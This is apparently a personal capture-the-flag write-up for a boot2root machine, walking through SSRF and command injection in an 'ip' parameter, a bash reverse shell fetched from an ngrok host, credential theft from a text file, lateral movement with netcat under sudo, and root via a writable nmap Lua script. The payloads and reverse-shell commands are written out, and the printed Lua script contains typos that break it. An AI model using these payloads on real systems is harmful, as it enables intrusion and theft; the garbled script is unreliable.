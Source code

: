 
2024-11-05 20:23

Source: #Boot2root #privesc 

Nmap scan the IP
Directory Bursting on Website
### SSRF on /status/index.php

in the captured burp suite request we have an IP field 
on changing the ip field we get `etc/passwd` in return 
```
ip=file:///etc/passwd
```
### RCE via SSRF

change the IP field to the following
use the code below to see the source code a website which has a File inclusion vulnerability.
```
ip=file:///proc/self/cwd/index.php
```

this will get the index.php, now decode this from html encoding
There is some sanitization to avoid RCE, but by using `&&` , we can still execute commands and bypass the sanitization. payload (I had urlencoded the &): 
```
ip=file:///etc/passwd&&id&&
```

### Gaining foothold

I used ngrok to gain a foothold on the punisher user, and for the rest of the lateral movement, I used the CTF server itself. 
I used ngrok to expose my local port to the internet so that I could upload a shell code file onto the server

```sh
cat shell.sh
bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16004 0>&1'
```

Uploaded this file on server using wget at /tmp/shell.sh
```sh
# File uploaded on the server 
ip=file:///etc/passwd&&wget http://0.tcp.in.ngrok.io:16004/
shell.sh -O /tmp/shell.sh&&

# Executed the /tmp/shell.sh file 
ip=file:///etc/passwd&&bash /tmp/shell.sh&&
```
start a listener on port 80 and get the shell before executing shell.sh

after getting the shell we see in `/opt/ftp_cred.txt`
there are credentials for user `punisher` , login using `su punisher`

### Lateral Movement to pettigrul user

I wrote into `/tmp/xyz.sh` below command 
```sh
nc localhost 6699 -e /bin/bash
```

And started a listener as punisher user on other tab 
```sh
nc -nvlp 6699
```

To execute it I ran below command
```sh
sudo -u pettigrul /tmp/xyz.sh
``` 
And got the shell as pettigrul user
### Privesc to root

`sudo -l ` shows 
```
(ALL) NOPASSWD: /usr/bin/nmap 127.0.0.1 -p 80 --script\=http-title
``` 

The nmap way was easy for me because I had already written a Lua command execution script before. I just had to modify it a bit
Below Lua script will run command `nc 127.0.0.1 6699 -e /bin/bash`

```lua
local nmap = require "nmap"
local stdnse = require "stdnse" 
local shortport = require "shortport"

-- Port rule to target HTTP (port 80) 
portrule = shortport.port_or_service(80, "http") 

action = function(host, port) 
	local attacker_ip = "127.0.0.1" -- Set to your IP 
	local attacker_port = 6699 -- Set to the port you're listening on

	-- Execute the reverse shell using nc -e /bin/bash 
	local handle = io.popen("nc " .. attacker_ip .. " " .. a ttacker_port .. " -e /bin/bash")
	
	-- Close the handle after execution 
	handle:close()
	
	 return "Reverse shell executed using nc -e /bin/bash
```

Since `http-title.nse` was writable, I just copied and pasted the above script after starting the listener

sudo /usr/bin/nmap 127.0.0.1 -p 80 --script\=http-title Got the foothold as root use

### References
 ISH CTF - Shivam